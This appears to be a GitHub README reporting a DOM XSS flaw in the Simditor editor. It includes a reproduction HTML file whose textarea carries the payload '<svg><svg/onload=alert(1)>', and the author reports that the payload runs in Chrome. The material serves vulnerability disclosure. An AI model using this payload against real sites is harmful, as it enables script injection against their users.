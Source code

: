 # simditor
https://github.com/mycolorway/simditor
DOM XSS


Download the Simditor source code.
--
We just need this three js.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--


Edit a HTML FILE
--
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```

Open the HTML in any browser.
--
*This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--
